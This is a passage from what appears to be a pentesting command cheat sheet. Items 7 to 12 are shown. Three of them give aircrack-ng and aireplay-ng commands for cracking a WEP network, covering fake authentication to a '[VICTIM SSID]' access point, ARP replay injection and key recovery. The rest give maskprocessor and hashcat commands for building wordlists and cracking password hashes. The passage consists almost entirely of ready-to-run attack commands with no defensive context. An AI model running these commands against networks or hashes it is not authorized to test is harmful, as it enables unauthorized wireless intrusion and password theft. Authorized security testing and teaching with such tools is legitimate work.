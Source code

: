 https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 7. wep crack 3) Create a fake auth to the AP
```
aireplay-ng -1 0 -e [VICTIM SSID] -a [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,networking,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 8. wep cracking
```
aireplay-ng -3 -b [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 9. wep cracking
```
aircrack-ng -b [VICTIM MAC] [OUTPUT]*cap
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 10. Word list generator
```
./mp64.bin -o custom.dic -1 tT -2 eE3 -3 ?s ?1qq?2qqq?2?2qq?2?3?3
```
**- linux,passwords,Windows,cracking**
#### References:

https://hashcat.net/wiki/doku.php?id=maskprocessor
__________
### 11. Word list generator
```
/data/hacking/hashcat-0.49/hashcat-cli64.bin -m 99999 wordseed.dic -r /data/hacking/hashcat-0.49/rules/leetspeak.rule --stdout | sort -u > custom.dic
```
**- linux,Windows,cracking**
#### References:

https://yg.ht
https://hashcat.net/wiki/doku.php?id=maskprocessor
__________
### 12. hashcat cpu
```
./hashcat-cli64.bin --session=[SESSIONNAME] -m[hash ID] [input file] [dict file] --rules rules/[rule file e.g. best64.rule d3ad0ne.rule etc]
```
**- linux,Windows,cracking**
#### References:
